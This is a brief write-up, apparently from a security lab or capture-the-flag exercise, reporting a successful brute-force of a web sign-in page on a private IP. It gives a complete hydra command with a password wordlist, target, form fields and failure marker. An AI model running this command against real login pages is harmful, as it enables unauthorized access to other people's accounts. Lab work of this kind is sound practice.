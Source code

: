 # Bruteforce login 

Using hydra,  we tried to bruteforce the **sign in** page and got access. 
Here's hydra command: 

hydra -l admin -P 100k-most-used-passwords-NCSC.txt -s 80 -f -V 172.18.15.123 http-get-form "/index.php:page=signin&username=^USER^&password=^PASS^&Login=Login:F="images/WrongAnswer.gif""